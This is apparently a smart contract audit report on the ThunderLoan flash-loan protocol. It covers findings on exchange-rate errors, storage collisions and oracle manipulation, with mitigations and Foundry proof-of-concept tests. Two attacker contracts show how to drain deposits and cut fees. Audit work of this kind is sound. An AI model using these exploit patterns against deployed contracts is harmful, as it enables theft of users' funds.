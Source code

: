 ## High

### [H-1] Erroneous `ThunderLoan::updateExchangeRate` in the `deposit` function causes protocol to think it has more fees than it really does, which blocks redemption and incorrectly sets the exchange rate

**Description:** In the ThunderLoan system, the `exchangeRate` is responsible for calculating the exchange rate between assetTokens and underlying tokens. In a way, it is responsible for keeping track of how many fees to give to liquidity providers.

However, the `deposit` function, updates this rate, without collecting any fees.

```javascript
function deposit(IERC20 token, uint256 amount) external revertIfZero(amount) revertIfNotAllowedToken(token) {
        AssetToken assetToken = s_tokenToAssetToken[token];
        uint256 exchangeRate = assetToken.getExchangeRate();
        uint256 mintAmount = (amount * assetToken.EXCHANGE_RATE_PRECISION()) / exchangeRate;
        emit Deposit(msg.sender, token, amount);
        assetToken.mint(msg.sender, mintAmount);

@>      uint256 calculatedFee = getCalculatedFee(token, amount);
@>      assetToken.updateExchangeRate(calculatedFee);

        token.safeTransferFrom(msg.sender, address(assetToken), amount);
    }
```

**Impact:** There are several impacts to this bug.

1. The `redeem` function is blocked, because the protocol thinks the owed tokens is more than it has.
2. Rewards are incorrectly calculated, leading to liquidity providers potentially getting way more or less than they are owed.

**Proof of Concept:**

1. LP deposits
2. User takes out a flash loan
3. It is now impossible for LP to redeem

<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`:

```javascript
function test_redeem_after_loan() public setAllowedToken hasDeposits {
        uint256 amountToBorrow = AMOUNT * 10;
        uint256 calculatedFee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);

        vm.startPrank(user);
        tokenA.mint(address(mockFlashLoanReceiver), calculatedFee);
        thunderLoan.flashloan(address(mockFlashLoanReceiver), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 amountToRedeem = type(uint256).max;
        vm.startPrank(liquidityProvider);
        thunderLoan.redeem(tokenA, amountToRedeem);
    }
```

</details>

**Recommended Mitigation:** Remove the incorrectly updated exchange rate lines from `deposit`.

```diff
-      uint256 calculatedFee = getCalculatedFee(token, amount);
-      assetToken.updateExchangeRate(calculatedFee);
```

### [H-2] Using `ThunderLoan::deposit` instead of transferring or `ThunderLoan::repay` to "repay" flash loans means an attacker can steal funds from the protocol

**Description:** When a user takes out a flash loan in the ThunderLoan system, they are expected to pay back the funds borrowed by using the `ThunderLoan::repay` function, or transferring the funds directly. When flash loans are taken out, at the end of the transaction the `endingBalance` and the `startingBalance + fee` are compared. If the `endingBalance` is smaller, the transaction will revert and the flash loan will not have been taken out. However flash loan recipients are able to call `ThunderLoan::deposit` with borrowed funds, enabling them to pass the conditional balance check.

**Impact:** A malicious user could steal all the funds from the ThunderLoan system by "paying back" flash loans using the `deposit` function, and then withdrawing the funds again using `ThunderLoan::redeem`.

**Proof of Concept:**

<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`:

```javascript
function test_use_deposit_instead_of_repay_to_steal_funds() public setAllowedToken hasDeposits {
        vm.startPrank(user);
        uint256 amountToBorrow = 50e18;
        uint256 fee = thunderLoan.getCalculatedFee(tokenA, amountToBorrow);
        DepositOverRepay dor = new DepositOverRepay(address(thunderLoan));
        tokenA.mint(address(dor), fee);
        thunderLoan.flashloan(address(dor), tokenA, amountToBorrow, "");
        dor.redeemMoney();
        vm.stopPrank();

        assert(tokenA.balanceOf(address(dor)) > 50e18 + fee);
    }
```

Place the following contract into `ThunderLoanTest.t.sol`:

```javascript
contract DepositOverRepay is IFlashLoanReceiver {
    ThunderLoan thunderLoan;
    AssetToken assetToken;
    IERC20 s_token;

    constructor(address _thunderLoan) {
        thunderLoan = ThunderLoan(_thunderLoan);
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /* initiator */
        bytes calldata /* params */
    )
        external
        returns (bool)
    {
        s_token = IERC20(token);
        assetToken = thunderLoan.getAssetFromToken(IERC20(token));
        IERC20(token).approve(address(thunderLoan), amount + fee);
        thunderLoan.deposit(IERC20(token), amount + fee);
        return true;
    }

    function redeemMoney() public {
        uint256 amount = assetToken.balanceOf(address(this));
        thunderLoan.redeem(s_token, amount);
    }
}
```

</details>

**Recommended Mitigation:** Consider checking the status of flash loan recipients/loaned funds before allowing deposits to be made.

### [H-3] Mixing up variable location causes storage collisions in `ThunderLoan::s_flashLoanFee` and `ThunderLoan::s_currentlyFlashLoaning`, freezing protocol

**Description:** `ThunderLoan.sol` has two variables in the following order:

```javascript
  uint256 private s_feePrecision;
  uint256 private s_flashLoanFee; // 0.3% ETH fee
```

However, the upgraded contract `ThunderLoanUpgraded.sol` has them in a different order:

```javascript
  uint256 private s_flashLoanFee; // 0.3% ETH fee
  uint256 public constant FEE_PRECISION = 1e18;
```

Due to how Solidity storage works, after the upgrade the `s_flashLoanFee` will have the value of `s_feePrecision`. You cannot adjust the position of storage variables, and removing storage variables for constant variables, breaks the storage locations as well.

**Impact:** After the upgrade, the `s_flashLoanFee` will have the value of `s_feePrecision`. This means that users who take out flash loans right after an upgrade will be charged the wrong fee.

More importantly, the `s_currentlyFlashLoaning` mapping with storage in the wrong storage slot.

**Proof of Concept:**

<details>
<summary>Proof of Code</summary>

Place the following into `ThunderLoanTest.t.sol`:

```javascript
import { ThunderLoanUpgraded } from "../../src/upgradedProtocol/ThunderLoanUpgraded.sol";
.
.
.
function test_upgrade_breaks() public {
        uint256 feeBeforeUpgrade = thunderLoan.getFee();
        vm.startPrank(thunderLoan.owner());
        ThunderLoanUpgraded upgraded = new ThunderLoanUpgraded();
        thunderLoan.upgradeToAndCall(address(upgraded), "");
        uint256 feeAfterUpgrade = thunderLoan.getFee();
        vm.stopPrank();

        console.log("Fee before:", feeBeforeUpgrade);
        console.log("Fee after:", feeAfterUpgrade);
        assert(feeBeforeUpgrade != feeAfterUpgrade);
    }
```

You can also see the storage layout difference by running `forge inspect ThunderLoan storage` and `forge inspect ThunderLoanUpgraded storage`.

</details>

**Recommended Mitigation:** If you must remove the storage variable, leave it as blank, as to not mess up the storage slots.

```diff
+ uint256 private s_blank;
  uint256 private s_flashLoanFee; // 0.3% ETH fee
  uint256 public constant FEE_PRECISION = 1e18;
```

---

## Medium

### [M-1] Centralization Risk for trusted owners

Contracts have owners with privileged rights to perform admin tasks and need to be trusted to not perform malicious updates or drain funds.

- Found in src/protocol/ThunderLoan.sol

  ```solidity
    function updateFlashLoanFee(uint256 newFee) external onlyOwner
  ```

- Found in src/protocol/ThunderLoan.sol

  ```solidity
  	function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
  ```

- Found in src/protocol/ThunderLoan.sol

  ```solidity
  	function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }
  ```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol

  ```solidity
    function setAllowedToken(IERC20 token, bool allowed) external onlyOwner returns (AssetToken) {
  ```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol

  ```solidity
  	function updateFlashLoanFee(uint256 newFee) external onlyOwner {

  ```

- Found in src/upgradedProtocol/ThunderLoanUpgraded.sol

  ```solidity
  	function _authorizeUpgrade(address newImplementation) internal override onlyOwner { }

  ```

### [M-2] Using TSwap as a price oracle leads to price/oracle manipulation attacks

**Description:** The TSwap protocol is a constant product formula based AMM (automated market maker). The price of a token is determined by how many reserves are on either side of the pool. Because of this, it is easy for malicious users to manipulate the price of a token by buying or selling a large amount of the token in the same transaction, essentially ignoring protocol fees.

**Impact:** Liquidity providers will get drastically reduced fees for providing liquidity.

**Proof of Concept:**

The following all happens in a single transaction.

1. User takes a flash loan from `ThunderLoan` for 1000 `tokenA`. They are charged the original fee `fee1`. During the flash loan, they do the following:
   1. User sells 1000 `tokenA`, tanking the price.
   2. Instead of repaying right away, the user takes out another flash loan for another 1000 `tokenA`.
      1. Due to the fact that the way `ThunderLoan` calculates price based on the `TSwapPool` this second flash loan is substantially cheaper.

```javascript
function getPriceInWeth(address token) public view returns (uint256) {
        address swapPoolOfToken = IPoolFactory(s_poolFactory).getPool(token);
        return ITSwapPool(swapPoolOfToken).getPriceOfOnePoolTokenInWeth();
    }
```

    3. The user then repays the first flash loan, and then repays the second flash loan.

<details>
<summary>Proof of Code</summary>

Import the following into `ThunderLoanTest.t.sol`:

```javascript
import { ERC20Mock } from "../mocks/ERC20Mock.sol";
import { BuffMockPoolFactory } from "../mocks/BuffMockPoolFactory.sol";
import { BuffMockTSwap } from "../mocks/BuffMockTSwap.sol";
import { ERC1967Proxy } from "@openzeppelin/contracts/proxy/ERC1967/ERC1967Proxy.sol";
import { IFlashLoanReceiver } from "../../src/interfaces/IFlashLoanReceiver.sol";
import { IERC20 } from "@openzeppelin/contracts/interfaces/IERC20.sol";
```

Place the following test into `ThunderLoanTest.t.sol`:

```javascript
function test_oracle_manipulation() public {
        // 1. Setup contracts
        thunderLoan = new ThunderLoan();
        tokenA = new ERC20Mock();
        proxy = new ERC1967Proxy(address(thunderLoan), "");
        BuffMockPoolFactory pf = new BuffMockPoolFactory(address(weth));
        // create a tsweap dex between weth / tokenA
        address tswapPool = pf.createPool(address(tokenA));
        thunderLoan = ThunderLoan(address(proxy));
        thunderLoan.initialize(address(pf));

        // 2. Fund TSwap
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 100e18);
        tokenA.approve(address(tswapPool), 100e18);
        weth.mint(liquidityProvider, 100e18);
        weth.approve(address(tswapPool), 100e18);
        BuffMockTSwap(tswapPool).deposit(100e18, 100e18, 100e18, block.timestamp);
        // ratio 100 weth / 100 tokenA
        // price 1:1
        vm.stopPrank();

        // 3. Fund ThunderLoan
        vm.prank(thunderLoan.owner());
        thunderLoan.setAllowedToken(tokenA, true);
        vm.startPrank(liquidityProvider);
        tokenA.mint(liquidityProvider, 1000e18);
        tokenA.approve(address(thunderLoan), 1000e18);
        thunderLoan.deposit(tokenA, 1000e18);
        vm.stopPrank();
        // 100 weth and 100 tokenA in TSwap
        // 1000 tokenA in ThunderLoan

        // Take out a flash loan of 50 TokenA
        // swap it on the dex, tanking the price 150 TokenA -> ~80 WETH
        // take out another flash loan of 50 TokenA and see how much cheaper it is

        // 4. Take out 2 flash loans
        //  a. Nuke price of weth/tokenA on TSwap
        //  b. Show doing so greatly reduces the fees paid on ThunderLoan
        uint256 normalFeeCost = thunderLoan.getCalculatedFee(tokenA, 100e18);
        console.log("Normal Fee is:", normalFeeCost); // 0.296147410319118389

        uint256 amountToBorrow = 50e18;
        MaliciousFlashLoanReceiver flr = new MaliciousFlashLoanReceiver(
            address(tswapPool), address(thunderLoan), address(thunderLoan.getAssetFromToken(tokenA))
        );

        vm.startPrank(user);
        tokenA.mint(address(flr), 100e18);
        thunderLoan.flashloan(address(flr), tokenA, amountToBorrow, "");
        vm.stopPrank();

        uint256 attackFee = flr.feeOne() + flr.feeTwo();
        console.log("Attack Fee is:", attackFee);
        assert(attackFee < normalFeeCost);
        // 0.214167600932190305
    }
```

Add the following contract into `ThunderLoanTest.t.sol`:

```javascript
contract MaliciousFlashLoanReceiver is IFlashLoanReceiver {
    BuffMockTSwap tswapPool;
    ThunderLoan thunderLoan;
    address repayAddress;
    bool attacked;
    uint256 public feeOne;
    uint256 public feeTwo;

    constructor(address _tswapPool, address _thunderLoan, address _repayAddress) {
        tswapPool = BuffMockTSwap(_tswapPool);
        thunderLoan = ThunderLoan(_thunderLoan);
        repayAddress = _repayAddress;
    }

    function executeOperation(
        address token,
        uint256 amount,
        uint256 fee,
        address, /* initiator */
        bytes calldata /* params */
    )
        external
        returns (bool)
    {
        if (!attacked) {
            // 1. Swap TokenA borrowed for WETH
            // 2. Take out ANOTHER flash loan, to show the difference
            feeOne = fee;
            attacked = true;
            uint256 wethBought = tswapPool.getOutputAmountBasedOnInput(50e18, 100e18, 100e18);
            IERC20(token).approve(address(tswapPool), 50e18);
            // tanks the price
            tswapPool.swapPoolTokenForWethBasedOnInputPoolToken(50e18, wethBought, block.timestamp);
            // call a second flash loan
            thunderLoan.flashloan(address(this), IERC20(token), amount, "");
            // repay
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        } else {
            // calculate the fee and repay
            feeTwo = fee;
            // repay
            // IERC20(token).approve(address(thunderLoan), amount + fee);
            // thunderLoan.repay(IERC20(token), amount + fee);
            IERC20(token).transfer(address(repayAddress), amount + fee);
        }
        return true;
    }
```

</details>

**Recommended Mitigation:** Consider using a different price oracle mechanism such as Chainlink Pricefeeds with a Uniswap TWAP fallback oracle.

---

## Informational

### [I-1] Functions not used internally could be marked external

```javascript
function repay(IERC20 token, uint256 amount) public {
```

### [I-2] Missing checks for `address(0)` when assigning values to address state variables

Assigning values to address state variables without checking for `address(0)`.

- Found in src/protocol/OracleUpgradeable.sol [Line: 16](src/protocol/OracleUpgradeable.sol#L16)

  ```solidity
          s_poolFactory = poolFactoryAddress;
  ```

### [I-3] Constants should be defined and used instead of literals

### [I-4] Event is missing `indexed` fields

Index event fields make the field more quickly accessible to off-chain tools that parse events. However, note that each index field costs extra gas during emission, so it's not necessarily best to index the maximum allowed per event (three fields). Each event should use three indexed fields if there are three or more fields, and gas usage is not particularly of concern for the events in question. If there are fewer than three fields, all of the fields should be indexed.

### [I-5] Test coverage needs to be higher

